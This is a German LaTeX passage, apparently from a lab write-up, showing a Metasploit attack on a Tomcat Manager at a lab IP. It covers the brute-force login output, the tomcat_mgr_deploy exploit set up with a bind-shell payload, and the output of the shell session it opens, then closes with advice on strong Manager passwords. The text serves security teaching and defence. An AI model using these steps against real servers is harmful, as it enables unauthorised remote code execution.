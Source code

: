 \documentclass[a4paper,12pt]{article} %
\begin{document}
\begin{lstlisting}[style=code,caption={Brute-Force Angriff auf Tomcat Manager},label=lst:tomcat:login:run]
...
[*] 10.1.1.130:8180 TOMCAT_MGR - [16/56] - Trying username:'tomcat' with password:'tomcat'
[+] http://10.1.1.130:8180/manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] successful login 'tomcat' : 'tomcat'
...
\end{lstlisting}
Die Logindaten tomcat:tomcat werden nun im nächsten Schritt verwendet um die Shell zu öffnen.
Mit dem Modul multi/http/tomcat\_mgr\_deploy wird versucht dem Tomcat ein Java Programm zu übermitteln das dort ausgeführt wird. Dieses soll die entsprechende Shell öffnen und einen Rückkanal zum Angreifer legen. Das Modul wird wie in Listing \ref{lst:tomcat:exploits:options} angegeben konfiguriert:

\begin{lstlisting}[style=code,caption={Konfiguration des Tomcat Exploits},label=lst:tomcat:exploits:options]
msf  exploit(tomcat_mgr_deploy) > set PASSWORD tomcat
PASSWORD => tomcat
msf  exploit(tomcat_mgr_deploy) > set USERNAME tomcat
USERNAME => tomcat
msf  exploit(tomcat_mgr_deploy) > set RHOST 10.1.1.130
RHOST => 10.1.1.130
msf  exploit(tomcat_mgr_deploy) > set RPORT 8180
RPORT => 8180
msf  exploit(tomcat_mgr_deploy) > set PAYLOAD java/shell/bind_tcp 
PAYLOAD => java/shell/bind_tcp
\end{lstlisting}
Es werden dabei die gefundenen Logindaten eingestellt sowie auch die Verbindungsdaten des Ziels. Wichtig hierbei ist die Payload. Dort wird angegeben was auf dem Tomcat als Payload übermittelt wird und dort ausgeführt werden soll. Der Befehl \verb!exploit! starten den Angriff und zeigt anschließend folgenden Output (Listing \ref{}):

\begin{lstlisting}[style=code,caption={Exploit für Shell},label=lst:tomcat:exploit:run]
[*] Started bind handler
[*] Attempting to automatically select a target...
[*] Automatically selected target "Linux x86"
[*] Uploading 6433 bytes as yzesidw.war ...
[*] Executing /yzesidw/UhoYpa5XFik35upD7upY5PBiJyh5L3U.jsp...
[*] Undeploying yzesidw ...
[*] Sending stage (2976 bytes) to 10.1.1.130
[*] Command shell session 2 opened (10.1.1.131:52058 -> 10.1.1.130:4444) at 2013-11-06 11:20:12 -0500
\end{lstlisting}
Anschließend kann der Angreifer herkömmliche Shellbefehle direkt am Zeil ausführen.
\newline

\textbf{Wie kann die Tomcat Attacke verhindert werden?}
Die einfachste Methode diesen Angriff zu verhindern ist, die Logindaten des Tomact Managers entsprechend stark zu machen. Je schwieriger es ist das Passwort herauszufinden desto sicherer wird man. Ohne die Logindaten kann der Angreifer nämlich das Java Programm erst gar nicht am Tomcat ausführen.
\end{document}
